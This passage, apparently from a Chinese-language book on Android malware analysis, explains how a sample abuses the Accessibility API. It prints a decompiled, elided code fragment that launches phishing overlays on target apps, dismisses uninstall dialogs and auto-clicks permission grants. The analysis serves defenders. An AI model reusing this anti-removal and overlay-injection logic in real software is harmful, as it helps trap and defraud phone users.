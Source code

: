 现在我们已经掌握了关于命令与控制服务器的一切：它们的域名、网址和命令。我们还知道了恶意软件收集的数据，以及哪些命令实际上被执行。这为我们提供了一个非常好的概览，证明了理解恶意软件的命令处理程序是理解其功能的关键。

#### ***更多的辅助功能滥用***

这款恶意软件样本的剩余谜团之一是它如何使用可访问性 API。我们已经发现恶意软件积极推动用户授予它对该 API 的访问权限，并且一旦完成授权，恶意软件就会广泛使用其类和方法。然而，我们仍然不知道它具体用这个 API 做什么。

使用可访问性 API 的代码不容易理解。该 API 复杂且凌乱，使用它实现任何功能都需要大量的代码。由于它包含超过 1,000 行代码，因此展示和解释所有恶意软件的可访问性 API 功能超出了本书的范围。相反，我们将限制在几个亮点上进行讨论。

大部分代码位于 *com.sniff.sibling.Accessibility* 包中，该包包含近 20 个类，主要用于模拟用户在预定义应用上的点击操作。例如，恶意软件可以通过一系列系统设置使自己成为默认的短信处理应用。同样，它还具有防御机制，用于检查用户是否打开了用于删除或禁用恶意软件的系统对话框，并在必要时关闭这些对话框，以防用户完成删除过程。

可访问性滥用代码的核心部分是 *com.sniff.sibling.Services.FitnessAccessibilityService* 类，该类扩展了默认的 Android 类 *android.accessibilityservice.AccessibilityService*，并提供了在系统上发生可访问性事件时调用的回调方法。该服务中最有趣的方法是 `windowStateChangedEvent`，该方法处理应用程序进入前台或以其他方式改变状态。当这种情况发生时，恶意软件会检查哪个应用程序进入了前台，并采取适当的行动。例如，如果它发现一个钓鱼目标，它会显示钓鱼对话框。如果它发现的是权限对话框，它会点击按钮授予该应用权限。清单 4-22 展示了 `windowStateChangedEvent` 方法的一个片段。

```
public void windowStateChangedEvent(AccessibilityEvent accessibilityEvent) {
    if (accessibilityEvent.getPackageName() != null) {
        if (UtilGlobal.injectionsEnabled(this) && UtilGlobal.packageHasInjection(
                this, accessibilityEvent.getPackageName().toString())) {
            Intent intent = new Intent(this, OverlayInjectActivity.class);
            intent.addFlags(268435456);
            intent.addFlags(8388608);
            UtilGlobal.SettingsWrite(this, Constants.appInjectTag, 
                accessibilityEvent.getPackageName().toString());
            startActivity(intent);
        } else if (UtilAccessibility.getEventClassName(accessibilityEvent).equals(
                "com.miui.home.launcher.uninstall.deletedialog")) {
            UtilAccessibility.goBack(this, 2);
        } else if (UtilAccessibility.getEventClassName(accessibilityEvent).equals(
                "com.android.packageinstaller.uninstalleractivity")) {
            UtilAccessibility.goBack(this, 2);
        } else if (accessibilityEvent.getPackageName().equals(
                "com.google.android.packageinstaller")) {
            UtilAccessibility.goBack(this, 2);
        }
        ...
        this.modulesManager.performAllNecessary(this, accessibilityEvent);
        if (UtilAccessibility.checkPermissionsClick(this, accessibilityEvent)) {
            UtilGlobal.Log("windowStateChangedEvent", "grantPermissionsClick called");
            UtilAccessibility.grantPermissionsClick(this, accessibilityEvent);
        }
        DozeModeAccessibilityModule.performIfNecessary(...);
        XiaomiDozeModeAccessibilityModule.performIfNecessary(...);
        DisablePreventionAccessibilityModule.performIfNecessary(...);
        DefaultSmsAppAccessibilityModule.performIfNecessary(...);
    DeletionPreventionAccessibilityModule.performIfNecessary(...);
        XiaomiSpecialPermissionInterceptActivityModule.performIfNecessary(...);
        ...
    }
}
```
